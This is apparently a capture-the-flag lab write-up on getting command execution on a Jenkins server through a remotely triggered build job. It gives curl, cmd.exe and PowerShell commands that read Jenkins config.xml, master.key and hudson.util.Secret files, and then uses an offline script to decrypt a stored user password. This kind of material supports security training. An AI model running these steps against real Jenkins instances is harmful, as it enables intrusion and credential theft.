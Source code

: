 # Jenkins

## Authenticated RCE

Create a new freestyle project

![](Attachments/Pasted%20image%2020250212004500.png)

![](Attachments/Pasted%20image%2020250212004609.png)

After creating a project, we can go to `Configure > Build Triggers > Trigger builds remotely` and enter an abritrary authentication token.

![](Attachments/Pasted%20image%2020250212005159.png)

We can then click on `Build > Add build step > Execute a windows batch command` and enter `whoami`.

![](Attachments/Pasted%20image%2020250212005948.png)

![](Attachments/Pasted%20image%2020250212010020.png)

From here we can save and click our profile at the top and go to `Configure > API Token > Add new Token` and enter the name of the token we created earlier.

![](Attachments/Pasted%20image%2020250212010203.png)

From here, we can enter the following url with the copied token:

```powershell
# Format: http://<token_name>:<token>@<url>/job/<job_name>/build?token=<build_token_name>
curl http://asdf:11e843e974f54c15caf038d8946165c4df@10.129.96.147:8080/job/asdf/build?token=asdf
```

![](Attachments/Pasted%20image%2020250212010555.png)

From here, we can't actually start a socket with a powershell cradle, but we can look for credentials of other users.

```powershell
cmd.exe /c "dir c:\Users\oliver\Appdata\local\jenkins\.jenkins\users"
```

From here we can see the admin user folder.

![](Attachments/Pasted%20image%2020250212011022.png)

We can now view the `config.xml` file for the admin directory.

```powershell
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml"
```

![](Attachments/Pasted%20image%2020250212011556.png)

From here, we see the user `oliver`. We can save this file as `credentials.xml` and download the following additional files.

```powershell
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key"
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```

We can then save this output as follows.

```powershell
echo 'f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19' > master.key

echo 'gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=' | base64 -d > hudson.util.Secret
```

We can now decrypt `oliver`'s password with [jenkins_offline_decrypt.py](https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py).

```bash
python3 -m venv venv
source venv/bin/activate
pip install pycryptodome
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret credentials.xml
```

![](Attachments/Pasted%20image%2020250212012411.png)

See [this](https://0xdf.gitlab.io/2022/02/28/htb-object.html) writeup for additional details.
